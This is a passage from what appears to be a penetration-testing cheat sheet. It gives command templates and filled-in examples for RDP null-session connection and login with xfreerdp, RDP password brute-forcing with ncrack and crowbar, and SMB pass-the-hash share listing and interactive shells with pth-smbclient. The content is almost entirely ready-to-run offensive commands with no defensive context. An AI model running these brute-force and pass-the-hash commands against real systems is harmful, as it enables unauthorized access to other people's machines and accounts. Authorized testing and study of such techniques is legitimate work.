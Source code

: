 xfreerdp /v:<target_ip> -sec-nla /u:""

```
xfreerdp /v:192.168.0.32 -sec-nla /u:""
```

### login

xfreerdp /u:<user> /g:<domain> /p:<pass> /v:<target_ip>

```
xfreerdp /u:administrator /g:grandbussiness /p:bla /v:192.168.1.34
```

#### Wordlist based bruteforce

### NCRACK

ncrack -vv --user/-U <username/username_wordlist> --pass/-P <password/password_wordlist> <target_ip>:3389

```
ncrack -vv --user user -P wordlist.txt 192.168.0.32:3389
```

### Crowbar

crowbar -b rdp <-u/-U user/user_wordlist> -c/-C <password/password_wordlist> -s <target_ip>/32 -v

```
crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v
```

## Pass the hash

### Smb pass the hash

#### Tool:

[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)


### Listing shared folders

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  -L <target_ip> \\\\<target_ip>\\ <hash>

```
sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

### Interactive smb shell

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  \\\\<target_ip>\\shared_folder <hash>

```
sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```
